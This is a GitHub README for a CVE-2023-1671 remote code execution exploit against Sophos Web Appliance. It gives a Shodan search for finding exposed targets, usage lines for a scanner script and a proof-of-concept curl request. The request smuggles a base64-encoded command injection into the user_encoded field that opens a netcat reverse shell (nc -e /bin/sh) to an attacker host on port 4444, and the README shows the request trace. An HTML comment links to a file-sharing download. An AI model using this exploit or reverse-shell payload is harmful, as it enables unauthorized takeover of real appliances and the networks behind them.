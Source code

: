 ## CVE-2023-1671
Sophos Web Appliance RCE
- Shodan dork: <br/>
```
title:"Sophos Web Appliance"
```
<!-- Here is an Easter Egg for inquiring minds
shodan-favicon-hashes - https://mega.nz/file/ctdH3LAB#lnE0GUkfCacwA18wR1VQI6TxIJ4OKM_6YKQdpHY4GN0
-->

### Usage
```
chmod +x scanner.sh
bash scanner.sh target.txt
```  
### POC
```
curl -k --trace-ascii % "https://target_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"

=> Send header, 184 bytes (0xb8)
0000: POST /index.php?c=blocked&action=continue HTTP/1.1
0034: Host: XX.XX.XX.XX
004a: User-Agent: curl/7.88.1
0063: Accept: */*
0070: Content-Length: 120
0085: Content-Type: application/x-www-form-urlencoded
00b6:
=> Send data, 120 bytes (0x78)
0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
0040: encoded=**************************
```
